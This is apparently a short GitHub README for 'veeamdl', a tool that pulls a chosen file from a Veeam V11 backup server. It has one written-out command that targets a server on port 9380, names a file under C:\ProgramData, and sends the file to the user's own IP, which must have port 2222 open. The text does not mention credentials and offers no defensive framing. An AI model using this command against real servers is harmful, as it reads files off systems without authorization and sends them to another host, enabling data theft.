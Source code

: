 # veeamdl

Downloads a file from a Veeam V11 server.


```sh
./veeamdl 192.168.0.10:9380 'C:\ProgramData\Veeam\Backup\Svc.VeeamBackup.log' 192.168.0.11
```

- 192.168.0.10 is Veeam IP
- 'C:\ProgramData\Veeam\Backup\Svc.VeeamBackup.log' is the file to download
- 192.168.0.11 is your IP ( port 2222 must be open )